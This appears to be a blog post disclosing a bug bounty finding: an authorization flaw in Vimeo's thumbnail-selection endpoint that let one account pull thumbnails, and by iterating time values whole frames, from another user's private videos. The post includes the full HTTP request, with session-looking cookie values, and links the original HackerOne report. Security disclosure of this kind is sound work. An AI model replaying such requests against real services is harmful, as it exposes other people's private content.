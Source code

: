 ```yaml
---
layout: post
title: Abusing Thumbnails to see Vimeo private video
---
```


https://vimeo.com/upload/select_thumb uri is used set a thumbnails on your vimeo video. https://vimeo.com/upload/select_thumb uri request is composed of 3 ```parameter clip_id, token, and time`` . `clip_id` parameter is used to select a video you want to get a thumbnail, `token` is a csrf token and time parameter is the timeframe of the video you selected.!

I changed the value of `clip_id` parameter to another `video id` to test some authorization flaw ,it seem it works because i got HTTP/1.1 200 OK and i short json response that contain a url, like this one

```
{"success":true,"id":503302458,"url":"https:\/\/i.vimeocdn.com\/video\/503302458_100x75.jpg"}
```

To confirm this is an authorization flaw I make an another account and upload a private video on that account and get the clip_id, then make a request(https://vimeo.com/upload/select_thumb) to my attacker account using that clip_id. as a result i got some thumbnails on a private video

if you want to get the whole video just iterate the time parameter!


## HTTP Request of vulnerable endpoint
{% highlight text %}
POST /upload/select_thumb HTTP/1.1
Host: vimeo.com
Connection: keep-alive
Content-Length: 101
Accept: application/json
Origin: https://vimeo.com
X-Requested-With: XMLHttpRequest
X-Request: JSON
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.95 Safari/537.36
Content-type: application/x-www-form-urlencoded; charset=UTF-8
DNT: 1
Referer: https://vimeo.com/116730756/settings
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.8,et;q=0.6,fil;q=0.4
Cookie: optimizelyEndUserId=oeu1421174571879r0.30598339810967445; vimeo_cart=%7B%22pro%22%3A%7B%22store%22%3A%22pro%22%2C%22version%22%3A1%2C%22quantities%22%3A%7B%22433857%22%3A1%7D%2C%22items%22%3A%5B%7B%22id%22%3A433857%7D%5D%2C%22currency%22%3A%22USD%22%2C%22attributes%22%3A%5B%5D%7D%7D; ki_t=1421174596820%3B1421174596820%3B1421174632154%3B1%3B2; ki_r=; optimizelySegments=%7B%22198520930%22%3A%22direct%22%2C%22199004622%22%3A%22gc%22%2C%22199138489%22%3A%22false%22%2C%22213082152%22%3A%22none%22%2C%22222271074%22%3A%22true%22%7D; optimizelyBuckets=%7B%7D; language=en; clips=116730756%2C116213689; auto_load_stats=1; has_logged_in=1; stats_start_date=2015%2F01%2F11; stats_end_date=2015%2F01%2F15; site_settings=%7B%22sticky_page%22%3A%22%5C%2Fmyvideos%22%2C%22browse_format_vid%22%3A%22video%22%7D; stream_id=Y2xpcHM6MzYzNzIzODc6aWQ6ZGVzYzpbXQ%3D%3D; stream_pos=1; orphaned_upload_clip_ids_v2=%5B116730663%2C116730664%5D; vuid=971609171.1881657208; _utma=18302654.1379178336.1421173781.1421184208.1421253399.5; _utmb=18302654.28.9.1421253997197; __utmc=18302654; __utmz=18302654.1421174705.2.2.utmcsr=google|utmccn=(organic)|utmcmd=organic|utmctr=(not%20provided); _utmv=18302654.|2=usertype=basic=1^3=ms=0=1^7=video_count=0=1; vimeo=epk9krxkmr70pcdxcxxsctd7jpcdxcxmkxrx7%2Cpfftk0tftdd0fdcmvx9x92rmksckx5rrfww5dwrvv; player=""; xsrft=d816974227fe3684c41a8501f333679f.61b1f2e5e1df9aeb29e02acf641d99a9

clip_id=9digitid&token=TOKEN_HERE&time=51.283

{% endhighlight %}

**Original Report:** [Hackerone](https://hackerone.com/reports/43850)
